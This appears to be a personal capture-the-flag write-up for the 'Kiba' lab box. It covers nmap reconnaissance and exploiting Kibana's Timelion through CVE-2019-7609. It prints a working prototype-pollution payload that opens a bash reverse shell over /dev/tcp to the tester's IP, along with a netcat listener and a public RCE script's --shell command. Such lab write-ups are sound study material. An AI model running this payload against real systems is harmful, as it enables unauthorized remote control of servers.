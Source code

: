
## Reconnaissance
 nmap payload:
└─# sudo nmap -sV -sC -p- kiba.thm

Unusual port number:

![[Screen Shot 2024-10-04 at 09.09.24.png]]

![[Screen Shot 2024-10-04 at 09.45.27.png]]

What is Kibana ?
![[Screen Shot 2024-10-04 at 09.10.54.png]]

Suspicious path:
http://kiba.thm:5601/app/timelion#



## Exploitation

Useful resources about vulnerability:
-  https://github.com/LandGrey/CVE-2019-7609
- https://github.com/mpgn/CVE-2019-7609

Initial compromise:
- Used Payload:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.69.113/1337 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

- Netcat listener:
```
nc -lvnp 1337
```


Reverse Shell PoC:
![[Screen Shot 2024-10-04 at 09.16.33.png]]


Although I have taken reverse shell connection back, I will also try a python script that handles RCE automatically.

```
# python2 CVE-2019-7609-kibana-rce.py -h

usage: CVE-2019-7609-kibana-rce.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell            reverse shell after verify

```

I will execute a payload below:

```
python2 CVE-2019-7609-kibana-rce.py -u http://10.10.163.241:5601 -host 10.11.69.113 -port 1234 --shell
```

However, it did not call back on my machine. After on my first shot, I got break-time and turn on hybrid mode on my system. Therefore, I am going to refresh the machine.

![[Screen Shot 2024-10-04 at 09.59.31.png]]![[Screen Shot 2024-10-04 at 10.00.59.png]]

